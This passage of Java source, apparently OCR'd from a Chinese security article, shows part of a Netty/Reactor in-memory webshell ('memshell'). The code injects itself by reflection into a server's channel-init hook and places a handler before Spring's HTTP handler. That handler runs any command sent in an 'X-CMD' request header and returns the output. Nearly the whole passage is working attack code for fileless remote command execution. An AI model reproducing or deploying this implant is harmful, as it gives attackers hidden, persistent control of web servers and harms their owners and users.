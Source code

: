 ```php
                    Field \_doOnChannelInit \= config.getClass().getSuperclass().getSuperclass().getDeclaredField("doOnChannelInit");  
                    \_doOnChannelInit.setAccessible(true);  
                    \_doOnChannelInit.set(config, new NettyMemshell());  
                    msg \= "inject-success";  
                }  
            }  
        }catch (Exception e){  
            msg \= "inject-error";  
        }  
        return msg;  
    }  

    @Override  
    // Step1. 作为一个ChannelPipelineConfigurer给pipline注册Handler  
    public void onChannelInit(ConnectionObserver connectionObserver, Channel channel, SocketAddress socketAddress) {  
        ChannelPipeline pipeline \= channel.pipeline();  
        // 将内存马的handler添加到spring层handler的前面          
        pipeline.addBefore("reactor.left.httpTrafficHandler","memshell\_handler",new NettyMemshell());  
    }  
      
      
    @Override  
    // Step2. 作为Handler处理请求，在此实现内存马的功能逻辑  
    public void channelRead(ChannelHandlerContext ctx, Object msg) throws Exception {  
        if(msg instanceof HttpRequest){  
            HttpRequest httpRequest \= (HttpRequest)msg;  
            try {  
                if(httpRequest.headers().contains("X-CMD")) {  
                    String cmd \= httpRequest.headers().get("X-CMD");  
                    String execResult \= new Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A").next();  
                    // 返回执行结果  
                    send(ctx, execResult, HttpResponseStatus.OK);  
                    return;  
                }  
            }catch (Exception e){  
                e.printStackTrace();  
            }  
        }  
        ctx.fireChannelRead(msg);  
    }  
​  
​  
    private void send(ChannelHandlerContext ctx, String context, HttpResponseStatus status) {  
        FullHttpResponse response \= new DefaultFullHttpResponse(HttpVersion.HTTP\_1\_1, status, Unpooled.copiedBuffer(context, CharsetUtil.UTF\_8));  
        response.headers().set(HttpHeaderNames.CONTENT\_TYPE, "text/plain; charset=UTF-8");  
        ctx.writeAndFlush(response).addListener(ChannelFutureListener.CLOSE);  
    }  
}
```
